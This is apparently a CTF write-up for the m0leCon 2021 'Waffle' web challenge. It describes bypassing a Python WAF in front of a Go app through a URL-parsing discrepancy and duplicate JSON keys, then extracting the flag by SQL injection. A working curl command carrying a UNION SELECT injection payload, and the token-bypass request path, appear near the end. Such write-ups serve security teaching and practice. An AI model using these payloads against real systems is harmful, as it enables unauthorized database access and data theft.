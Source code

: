 # m0leCon 2021 CTF Teaser - Waffle

## Challenge

We needed to upgrade [this app](http://waffle.challs.m0lecon.it/) but no one here can code in Go. Easy fix: just put a custom waf in front of it.

[attachments_waffle.zip](attachments_waffle.zip)

### Metadata

- Tags: `web`
- Author: *Xato*
- Points: 165
- Solves: 28

## Solution

The site was a simple site, to interact with it we needed a token, however to get this token we need to somehow bypass the WAF. After that we have an obvious SQL injection in the source code of the application.

Our first idea was HTTP smuggling, however we noticed that the WAF creates new requests instead of proxying the request to the server, therefore we dropped this idea. Our idea was to find an error in the Python code and access the `/gettoken` endpoint that way.

We was thinking about two alternatives:

- Craft a normal request and modify the `promocode` in a way, that if won't be `==` to `FREEWAF` in Python, but it will be in case of Go.
- Craft a request, where the parameters are somehow encoded in the path therefore the `else` branch will forward it to application where it gets extracted.

```python
    if('gettoken' in unquote(path)):
        promo = request.args.get('promocode')
        creditcard = request.args.get('creditcard')

        if promo == 'FREEWAF':
            res = jsonify({'err':'Sorry, this promo has expired'})
            res.status_code = 400
            return res

        r = requests.get(appHost+path, params={'promocode':promo,'creditcard':creditcard})

    else:
        r = requests.get(appHost+path)
```

After a lot of fuzzing and time, we gave up on the first alternative and one of us found an issue in the GitHub page of Go [https://github.com/golang/go/issues/25192](https://github.com/golang/go/issues/25192).

After many trials we were able to get the token by making the following request: `/gettoken%3f;promocode=FREEWAF?creditcard=a`

![token](token.png)

We got the token: `LQuKU5ViVGk4fsytWt9C`.

With the token the next step was to exploit the SQL injection in the database. We found out quite easily if there are two `name` parameters in the JSON, the WAF will use the second meanwhile the application will use the first. This way the SQL injection mitigations of the WAF can be bypassed.

We dumped the entire table with a simple `OR 1` query shown on the picture.

![dump](sqli.png)

Since we knew the application uses SQLite the next step was to union query, this with the data from `sqlite_master`. This way we learned that there is a table with name of `flag`.

![table](table.png)

We made a quick guess that if the table name is `flag` then the column name may be the same, therefore we issued the following request, and as it turned out it gave us the flag.

![flag](flag.png)

We can do the same with `curl`:

```bash
> curl -H 'Cookie: token=LQuKU5ViVGk4fsytWt9C' -X POST 'http://waffle.challs.m0lecon.it/search' --data-raw  "{\"name\": \"' OR 1 UNION SELECT flag, 1, 1, 1 FROM flag --\", \"name\": \"asd\"}"
[{"name":"Big","radius":25,"height":260,"img_url":"/img/large.jpg"},{"name":"Micro","radius":6,"height":100,"img_url":"/img/micro.jpg"},{"name":"Small","radius":12,"height":150,"img_url":"/img/small.jpg"},{"name":"Squared","radius":20,"height":200,"img_url":"/img/squared.jpg"},{"name":"Standard","radius":18,"height":200,"img_url":"/img/medium.jpg"},{"name":"ptm{n3ver_ev3r_tru5t_4_pars3r!}","radius":1,"height":1,"img_url":"1"}]
```

The flag is `ptm{n3ver_ev3r_tru5t_4_pars3r!}`.